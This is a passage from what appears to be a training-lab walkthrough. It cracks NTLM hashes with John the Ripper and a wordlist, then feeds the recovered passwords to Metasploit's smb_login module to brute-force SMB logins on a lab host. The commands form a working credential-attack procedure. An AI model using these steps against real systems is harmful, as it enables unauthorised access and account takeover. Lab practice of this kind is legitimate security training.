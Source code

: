 Now we have three files, let's crack NTLM-hashes with john-the-ripper

```
john --format=nt --wordlist=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ntlm_hashes.txt
```

We have cracked two hashes, let's write to a file and use it for brute-force.

There is a Metasploit module named smb_login,

Let's use our usernames, passwords files.

set rhosts target.ine.local

set USER_FILE usernames.txt

set PASS_FILE passwords.txt

set CreateSession true

run

<img alt="" class="bh ko mr c jop-noMdConv" width="700" height="153" loading="lazy" role="presentation" src="resources/1_rFH42NaJyi6iz4B7XYGb0w.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

We have also found the correct credentials for these users.

<img alt="" class="bh ko mr c jop-noMdConv" width="661" height="342" loading="lazy" role="presentation" src="resources/1_-h-MqTQjdUYS-QGUCDlsoQ.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 661px; max-width: 100%; height: auto;">

nothing useful here.
